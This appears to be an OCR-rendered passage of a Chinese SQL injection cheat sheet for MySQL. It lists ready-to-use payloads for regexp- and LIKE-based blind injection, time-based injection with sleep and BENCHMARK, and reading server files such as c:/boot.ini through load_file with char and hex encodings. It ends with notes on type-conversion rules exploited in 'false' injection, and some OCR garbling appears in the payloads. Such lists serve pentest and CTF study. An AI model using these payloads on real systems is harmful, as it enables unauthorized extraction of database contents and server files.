 ```
select user() regexp '^[a-z]';

select user() regexp '^ro'

I select * from users where id=1 and 1=(if((user() regexp '^r'),1,0));

select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema='security' and table_name regexp '^us[a-z]' limit 0,1);

```

## like 匹配注入

```
select user() like 'root%'
```

## 延时注入

```
If(ascii(substr(database(),1,1))>115,0,sleep(5))%23

UNION SELECT IF(SUBSTRING(current,1,1)=CHAR(119),BENCHMARK(5000000,ENCODE(‘M SG’,’by 5 seconds’)),null) FROM (select database() as current) as tb1;
```

## 导入导出操作

```
load_file()导出文件

Select 1,2,3,4,5,6,7,hex(replace(load_file(char(99,58,92,119,105,110,100,111,119,115,92, 114,101,112,97,105,114,92,115,97,109)))

-1 union select 1,1,1,load_file(char(99,58,47,98,111,111,116,46,105,110,105)) 
Explain:“char(99,58,47,98,111,111,116,46,105,110,105)”就是“c:/boot.ini”的 ASCII 代码
-1 union select 1,1,1,load_file(0x633a2f626f6f742e696e69) Explain:“c:/boot.ini”的 16 进制是“0x633a2f626f6f742e696e69”
-1 union select 1,1,1,load_file(c:\\boot.ini) Explain:路径里的/用 \\代替

```

## Mysql False注入

==遇到引号闭合的变量时==
```
如果两个参数比较，有至少一个NULL，结果就是NULL，除了是用NULL<=>NULL 会返回1。不做类型转换
---------------------------------------------
两个参数都是字符串，按照字符串比较。不做类型转换
---------------------------------------------
两个参数都是整数，按照整数比较。不做类型转换
---------------------------------------------
如果不与数字进行比较，则将十六进制值视为二进制字符串。
---------------------------------------------
有一个参数是 TIMESTAMP 或 DATETIME，并且另外一个参数是常量，常量会被转换为时间戳
---------------------------------------------
有一个参数是 decimal 类型，如果另外一个参数是 decimal 或者整数，会将整数转换为 decimal 后进行比较，如果另外一个参数是浮点数，则会把 decimal 转换为浮点数进行比较
---------------------------------------------
所有其他情况下，两个参数都会被转换为浮点数再进行比较
---------------------------------------------
最后那一句话很重要，说明如果我是字符串和数字比较，需要将字符串转为浮点数，这很明显会转换失败
```
